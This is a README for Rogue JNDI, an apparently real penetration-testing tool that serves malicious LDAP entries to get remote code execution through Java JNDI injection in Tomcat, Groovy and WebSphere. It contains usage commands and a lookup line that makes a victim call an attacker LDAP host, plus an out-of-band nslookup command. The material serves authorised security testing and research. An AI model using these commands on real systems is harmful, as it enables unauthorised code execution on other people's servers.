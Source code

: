 ## Rogue JNDI
A malicious LDAP server for JNDI injection attacks.

### Description
The project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.<br> 
In order to perform an attack, you can start these servers locally and then trigger a JNDI resolution on the vulnerable client, e.g.:
```java
InitialContext.doLookup("ldap://your_server.com:1389/o=reference");
```
It will initiate a connection from the vulnerable client to the local LDAP server.
Then, the local server responds with a malicious entry containing one of the payloads, that can be useful to achieve a Remote Code Execution. 

### Motivation
In addition to the known JNDI attack methods(via remote classloading in references), this tool brings new attack vectors by leveraging the power of [ObjectFactories](https://docs.oracle.com/javase/8/docs/api/javax/naming/spi/ObjectFactory.html).

### Supported payloads
* [RemoteReference.java](/src/main/java/artsploit/controllers/RemoteReference.java) - classic JNDI attack, leads to RCE via remote classloading, works up to jdk8u191 
* [Tomcat.java](/src/main/java/artsploit/controllers/Tomcat.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** 
* [Groovy.java](/src/main/java/artsploit/controllers/Groovy.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** + **groovy.lang.GroovyShell**
* [WebSphere1.java](/src/main/java/artsploit/controllers/WebSphere1.java) - leads to OOB XXE in **com.ibm.ws.webservices.engine.client.ServiceFactory**
* [WebSphere2.java](/src/main/java/artsploit/controllers/WebSphere2.java) - leads to RCE via classpath manipulation in **com.ibm.ws.client.applicationclient.ClientJ2CCFFactory**

### Usage
```
$ java -jar target/RogueJndi-1.0.jar -h
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command     Command to execute on the target server (default: touch 
                      /usr/local/tomcat/temp/pwn.txt) 
    -n, --hostname    Local HTTP server hostname (required for remote 
                      classloading and websphere payloads) (default: 
                      192.168.0.166) 
    -l, --ldapPort    Ldap bind port (default: 1389)
    -p, --httpPort    Http bind port (default: 8000)
    --wsdl            [websphere1 payload option] WSDL file with XXE payload 
                      (default: /list.wsdl)
    --localjar        [websphere2 payload option] Local jar file to load (this 
                      file should be located on the remote server) (default: 
                      ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    --h2              [H2 database init script file (default: /h2)
    --js-payload-path     [Tomcat Nashorn payload option] Path to a .js file 
                          containing the payload served by the Tomcat 
                          controllers; overwrites the -c option (default: 
                          <empty string>)
    --groovy-payload-path [Groovy payload option] Path to a .groovy file 
                          containing the payload served by the Groovy 
                          controller, overwrites the -c option (default: 
                          <empty string>)
    -h, --help            Show this help
```
The most important parameters are the ldap server hostname (-n, should be accessible from the target) and the command you want to execute on the target server (-c).
 
As an alternative to the "-c" option, you can modify the [ExportObject.java](/src/main/java/artsploit/ExportObject.java) file by putting java code you want to execute on the target server. 

### Example:
```
$ java -jar target/RogueJndi-1.1.jar --command "nslookup your_dns_sever.com" --hostname "192.168.1.10"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.0.166:1389/o=h2 to artsploit.controllers.H2
Mapping ldap://192.168.0.166:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.0.166:1389/o=tomcat10 to artsploit.controllers.Tomcat10
Mapping ldap://192.168.0.166:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.0.166:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://192.168.0.166:1389/o=tomcat10-jshell to artsploit.controllers.Tomcat10JShell
Mapping ldap://192.168.0.166:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://192.168.0.166:1389/o=tomcat-jshell to artsploit.controllers.TomcatJShell
Mapping ldap://192.168.0.166:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.0.166:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://192.168.0.166:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.0.166:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
```

### Building
Java v1.7+ and Maven v3+ required
```
mvn package
```

### Disclamer
This software is provided solely for educational purposes and/or for testing systems which the user has prior permission to attack.

### Special Thanks
* [Alvaro Muñoz](https://twitter.com/pwntester) and [Oleksandr Mirosh](https://twitter.com/olekmirosh) for the excellent [whitepaper](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) on JNDI attacks
* [@zerothoughts](https://github.com/zerothoughts) for the inspirational [spring-jndi](https://github.com/zerothoughts/spring-jndi) repository
* [Moritz Bechler](https://github.com/zerothoughts) for the eminent [marshallsec](https://github.com/mbechler/marshalsec) research
* [Orange Tsai](https://twitter.com/orange_8361) and [Welk1n](https://github.com/welk1n) for the Apache + Groovy gadget

### Links
* An article about [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) in the Veracode Blog
* [How I Hacked Facebook Again! Unauthenticated RCE on MobileIron MDM](https://blog.orange.tw/2020/09/how-i-hacked-facebook-again-mobileiron-mdm-rce.html) 

### Authors
[Michael Stepankin](https://twitter.com/artsploit)